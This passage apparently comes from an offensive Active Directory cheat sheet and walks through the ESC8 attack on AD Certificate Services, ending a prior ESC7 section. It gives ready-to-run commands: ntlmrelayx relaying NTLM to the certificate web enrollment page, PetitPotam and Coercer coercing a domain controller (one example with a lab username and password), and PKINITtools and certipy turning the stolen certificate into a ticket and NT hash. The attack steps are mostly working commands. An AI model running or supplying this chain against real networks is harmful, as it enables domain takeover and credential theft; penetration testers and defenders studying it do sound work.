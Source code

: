 ![Retrieve the denied certificate request like a boss](./src/images/esc7_retrieve_certificate.png)

6. Proceed with [Pass the Certificate](#pass-the-certificate) attack.

### ESC8
This requires NTLMv2 relaying from target identity to the /certsrc/certfnsh.asp endpoint to request a certificate. Below are the steps to reproduce.  In case of successful coerce, relayed NetNTLM can be used to request a certificate as the account itself. 

1. Fire up `ntlmrelayx.py` to listen for incoming hash and relay it to target url
```bash
ntlmrelayx.py -t http://192.168.86.183/certsrv/certfnsh.asp -smb2support --adcs --template 'KerberosAuthentication'
```
2. Coerce authentication using [PetitPotam](https://github.com/topotam/PetitPotam). _Note that patched system doesnt allow unauthenticated coerce, then it would require a credential_
```bash
# unpatched DC
python3 PetitPotam.py 192.168.86.165 192.168.86.182

# patched DC
python3 PetitPotam.py -u 'peter' -p 'Welcome1234' -d 'range.net' 192.168.86.165 192.168.86.182
```
3. A base64 encoded ticket should be retrieved by now and save it in a file. Use gettgtpkinit.py to convert the pfx certificate to ccache format 
```bash
python3 gettgtpkinit.py range.net/dc01\$ -pfx-base64 $(cat /tmp/b64-cert.b64) -dc-ip 192.168.86.182 /tmp/out.ccache
```
4. Use getnthash.py to retrieve ntlm hash
```bash
python3 /opt/AD/PKINITtools/getnthash.py range.net/dc01\$ -key c5deec1a9ef6cbaf6da31cb46c1398fdc47c37630375896ee412f3462332503b -dc-ip 192.168.86.182
```
5. NTLM hash should now be retrieved and win!

Step 1, 3 and 4 can be skipped with **certipy**
1. Use relay module in certipy
```bash
certipy relay -ca ca01.range.net -template 'DomainController'
```
2. Coerce with any coercion methods that you'd prefer.
```bash
py Coercer.py -t 192.168.86.182 -l 192.168.86.193
```
3. Authenticate with the retrieved certificate with certipy's auth module.
```bash
certipy auth -pfx dc01.pfx -dc-ip 192.168.86.183
```
